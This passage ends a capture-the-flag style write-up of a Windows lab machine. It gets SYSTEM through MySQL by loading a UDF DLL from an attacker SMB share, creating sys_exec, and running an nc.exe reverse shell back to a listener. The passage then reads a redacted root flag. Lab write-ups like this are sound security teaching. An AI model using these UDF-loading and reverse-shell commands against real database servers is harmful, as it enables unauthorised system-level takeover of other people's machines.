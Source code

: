 ```bash
```

Then we just execute the following commands on `MySQL` to load the plugin.

```bash
MySQL [(none)]> select load_file('\\\\10.10.XX.XX\\kali\\lib_mysqludf_sys_64.dll') into dumpfile "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll";
MySQL [(none)]> create function sys_exec returns int soname 'udf.dll';
```

Now, we can run any commands using `sys_exec`. We start our `nc` listener:

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
```

And run the following on `MySQL` to connect back to us.

```bash
MySQL [(none)]> select sys_exec("C:\\temp\\nc.exe -e cmd.exe 10.10.XX.XX 1337");
```

We then get a shell as `SYSTEM` on our listener!

```bash
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.9] 49271
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ProgramData\MySQL\MySQL Server 5.5\Data> whoami
nt authority\system
```

# root.txt

The root flag was located in `Administrator`'s Desktop.

```
C:\Users\Administrator\Desktop>type root.txt.txt
4bf1XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


### Rooted ! Thank you for reading and look forward for more writeups and articles !